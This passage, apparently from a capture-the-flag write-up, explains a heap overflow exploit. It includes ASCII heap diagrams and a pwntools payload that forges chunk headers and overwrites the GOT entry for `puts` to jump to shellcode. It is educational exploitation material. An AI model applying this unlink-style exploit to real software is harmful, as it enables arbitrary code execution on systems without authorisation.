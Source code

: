 ```
               |                            | --+
---------------+----------------------------+ 
```

The sizes are a result of taking the size that the user requested, adding 4 for the size DWORD itself and rounding up to the next multiple of 8 bytes.

The payload we'll be sending as input for `gets(fullname)` will be as follows:

```python
shell_code = asm('jmp l1; nop;nop;nop;nop;nop;nop;nop;nop;nop;nop;nop;nop; l1: push {}; ret;'.format(hex(exe.symbols["win"])))
payload = shell_code + ('B' * (664-len(shell_code))) + p32(100, sign = "signed") + p32(-4, sign = "signed") + p32(exe.got["puts"] - 12) + p32(address)
```

This will cause the heap to look as follows:
```
---------------+------------------------+---+ 
               | 672                    | P | 
firstname -->  +------------------------+---+ --+
               | shellcode + filler         |   |
               +                            +   |
               |                            |   |
               +                            +   | 666 bytes
               |                            |   |
               |                            |   |
               +----------------------------+   |
               | 100                    | 0 | --+
---------------+------------------------+---+
               | -4                     | 0 | 
name ------->  +------------------------+---+ --+
               | exe.got["puts"] - 12       |   |
               +----------------------------+   |
               | address of firstname       |   |
               +----------------------------+   | 66 bytes
               |                            |   |
               |                            |   |
               +                            +   |
               |                            | --+
---------------+------------------------+---+ 
               | 72                     | 1 | 
lastname --->  +------------------------+---+ --+
               | User Data                  |   |
               +                            +   |
               |                            |   | 
               +                            +   | 66 bytes
               |                            |   |
               |                            |   |
               +                            +   |
               |                            | --+
---------------+----------------------------+ 
```
